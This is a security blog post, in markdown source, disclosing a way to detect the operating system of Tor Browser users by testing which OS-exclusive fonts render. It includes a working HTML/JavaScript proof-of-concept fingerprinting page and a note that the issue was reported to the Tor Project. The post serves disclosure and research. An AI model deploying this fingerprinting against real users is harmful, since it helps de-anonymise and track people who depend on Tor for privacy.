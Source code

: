 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: 'Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.'
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor Browser[¹](#references) is based on Firefox, with its peculiarities and promises of privacy/digital anonymity[²](#references), in addition to all engineering to hide the IP from a user, Tor also promises to combat identifications that are linked to the operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it, among others.

However, it's possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users using “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware[³](#references) of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete. More information about this can be found at: [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/) [⁴](#references)

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

If you prefer, you can see a live demo [clicking here](https://heitorgouvea.me/public/payloads/tor-browser-fonts-exploit.html)

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)

User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-windows.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts to minimaze that margin of error.

---

### Impact

With this technique it is possible to identify the operating system of a user who is using Tor. On a website with low traffic volume, this distinction is enough to exclusively track users, already for a website with high traffic, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot to minimize the risks around this vulnerability.

---

### References

- 1. [https://www.torproject.org/](https://www.torproject.org/)
- 2. [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
- 3. [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
- 4. [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
- 5. [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)